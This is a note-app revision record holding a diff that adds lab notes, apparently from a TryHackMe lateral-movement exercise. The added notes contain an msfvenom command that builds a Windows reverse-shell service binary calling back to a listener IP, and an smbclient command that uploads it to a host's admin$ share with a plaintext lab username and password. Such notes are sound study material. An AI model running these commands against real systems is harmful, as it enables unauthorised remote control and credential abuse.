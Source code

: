 id: e7d24bbb1a4e4c0885552bb3095cc1e8
parent_id: 345ccc75f6434d3ea32a3e5a82f71ad4
item_type: 1
item_id: 2746679238ae490999cfd0e1384c3390
item_updated_time: 1657618971587
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"rvice`\\\n\\\n\"],[1,\"## Run a payload - i.e. Reverse Shell\\\n\\\nFirst we create the payload with msfvenom\\\n\\\n> msfvenom -p windows/shell\\\\_reverse\\\\_tcp -a x86_64 --platform windows  -f exe-service LHOST=10.50.65.78 LPORT=9001 -o myservice.exe\\\n\\\nThen we add it as a service to the target, either by smbclient or web download\\\n\\\n> smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever\\\n\\\nThen we make the service\\\n\\\n\"],[0,\"# Create\"]],\"start1\":1382,\"start2\":1382,\"length1\":16,\"length2\":450}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T09:43:19.281Z
created_time: 2022-07-12T09:43:19.281Z
type_: 13